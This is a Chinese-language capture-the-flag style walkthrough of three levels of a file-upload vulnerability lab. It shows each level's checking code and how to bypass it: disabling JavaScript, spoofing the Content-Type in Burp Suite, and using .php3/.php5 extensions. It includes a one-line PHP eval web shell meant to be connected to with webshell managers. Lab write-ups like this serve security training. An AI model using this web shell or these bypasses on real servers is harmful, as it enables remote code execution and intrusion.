	前情提要：
		文件上传漏洞的靶场以及理论知识在下方链接处，不理解或者靶场没有设置好的就去这里复习一下即可

[[028-文件上传漏洞]]
[[027-fileupload（文件上传）靶场搭建]]
# 关卡1


### 关卡代码限制构造
```JavaScript
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```
	 代码分析
	这些代码书写内容是js前端的，猜测可能用了前端限制，不经过服务器，将其关掉即可绕过
	而且上传文件的时候，也会弹出来一个js前端检查的窗口，上传一个shell.php的文件，如下所示


**关闭步骤：
当前页面快捷键按F12，点击右侧的设置

打开调试程序的==禁用JavaScript==即可，做完这一关卡之后，再改成原来的即可。

	绕过：
	上传一个shell.php的文件，文件内容构造如下：
```php
<? php
@eval($_POST['password']);
? >
```
图示：
右键上传文件的位置，复制图像地址，将其复制到webshell工具（中国蚁剑，中国菜刀，冰蝎，哥斯拉）进行连接，


	点击测试连接，显示连接成功！！！上传成功能访问到目标服务器


# 关卡2
	注意：每一关做完东西，要及时点击右上方的清空上传文件，以面对后续的练习造成影响



### 关卡代码限制构造
```php
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```
	代码分析：
	大致意思就是用了MIME类型的限制，只允许image/jpg，png，gif类型的图片文件

	绕过思路
	可以用Burp Suite进行抓包，上传一个shell.php的文件，将其用bp拦截下来，发送到重放模块，修改content type 为image/jpg的即可绕过

### 步骤：
	1、构造一个shell.php文件，内容同上或者内容为
	<? php phpinfo(); ?>也可以，只要能在网页打开就行
	点击浏览，选中制作好的webshell文件，先不要上传！！！
	2、网页开启代理，bp代理以及bp抓包的在文章最上方的链接处，不会的可以翻着看
	然后开启拦截之后，再点击上传，如下所示：


	对着这个条目右键，发送到重放模块（repeater）,当然也可以直接在这里改

	将Content-Type 后面的内容改为
	image/jpg
	image/png
	image/gif
	任选一个就行，如果上传出错就换另外一个格式的就好，做完点击发送


如下所示


	右侧响应下面的HTTP/1.1 200 OK即为上传陈工，再检查一下页面渲染里面的是否被上传上去，上传上去之后用蚂蚁剑链接
	路径bp下面有




# 关卡3


### 关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	代码分析：
	限制里面加了.asp|.aspx|.php|jsp这些文件，同时有禁用掉了Windows系统中的::DATA流（就是上传的是一个隐藏文件，可以等价Windows的隐藏文件和正常能显示的文件理解），都奖上传的后缀转换成了小写，删末尾的.以及收尾去空。

	绕过思路：
	apache服务默认的都是能执行php3，php5等好多这种扩展文件后缀的文件，这次也是利用bp抓包，将后缀修改了php3或者php5

### 步骤：
1、做好webshell木马文件
2、抓包拦截，修改名称
3、链接


	拦截，重放模块
检查是否上传成功


同时，上传之后会改名称，这里可以看到修改之后的文件，用这个链接


	分析：
	上传之后的文件放在了上一级目录（../）下面的upload文件夹下面，名称为202605052121058270.php3，可以用这个进行连接

连接！！！

	如下所示：
	是环境没有配置可以执行.php3|.php5这类的后缀。
